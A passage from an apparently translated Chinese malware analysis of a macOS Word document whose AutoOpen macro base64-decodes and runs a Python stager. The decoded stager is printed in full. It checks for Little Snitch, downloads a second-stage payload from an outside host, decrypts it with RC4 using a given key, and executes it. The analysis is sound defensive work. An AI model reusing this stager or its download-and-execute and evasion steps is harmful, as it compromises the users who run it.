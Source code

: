 根据微软所说的，“当打开一个新文档时,AutoOpen宏会开始运行”。 因此，只要用户打开Mac上的这个文件，在Word中（假定已启用宏）,Fisher函数就会自动执行。 

Fisher函数对数据进行base64解码（保存在CMD变量），然后通过Python执行它。使用Python的base64模块，我们可以轻松解码的数据：



```
$ python
&gt;&gt;&gt; import base64
&gt;&gt;&gt; cmd = "ZFhGcHJ2c2dNQlNJeVBmPSdhdGZNelpPcVZMYmNqJwppbXBv .... "
&gt;&gt;&gt; base64.b64decode(cmd)
...
dXFprvsgMBSIyPf = 'atfMzZOqVLbcj'
import ssl;
if hasattr(ssl, '_create_unverified_context'): 
   ssl._create_default_https_context = ssl._create_unverified_context;
import sys, urllib2;
import re, subprocess;
cmd = "ps -ef | grep Little Snitch | grep -v grep"
ps = subprocess.Popen(cmd, shell = True, stdout = subprocess.PIPE)
out = ps.stdout.read()
ps.stdout.close()
if re.search("Little Snitch", out):
   sys.exit()
o = __import__(`{`
   2: 'urllib2',
   3: 'urllib.request'
`}`[sys.version_info[0]], fromlist = ['build_opener']).build_opener();
UA = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:45.0) Gecko/20100101 Firefox/45.0';
o.addheaders = [('User-Agent', UA)];
a = o.open('https://www.securitychecking.org:443/index.asp').read();
key = 'fff96aed07cb7ea65e7f031bd714607d';
S, j, out = range(256), 0, []
for i in range(256):
   j = (j + S[i] + ord(key[i % len(key)])) % 256
   S[i], S[j] = S[j], S[i]
i = j = 0
for char in a:
   i = (i + 1) % 256
   j = (j + S[i]) % 256
   S[i], S[j] = S[j], S[i]
   out.append(chr(ord(char) ^ S[(S[i] + S[j]) % 256]))
exec(''.join(out))
```

Python代码！宏中包含的已解码的python很容易阅读。简而言之：

1.	检查以确保LittleSnitch没有运行

2.	从[https://www.securitychecking.org:443/index.asp](https://www.securitychecking.org:443/index.asp)  上下载第二级的攻击载荷

3.	使用RC4解密这个有效载荷（key：fff96aed07cb7ea65e7f031bd714607d）

4.	执行这个已解密的攻击载荷
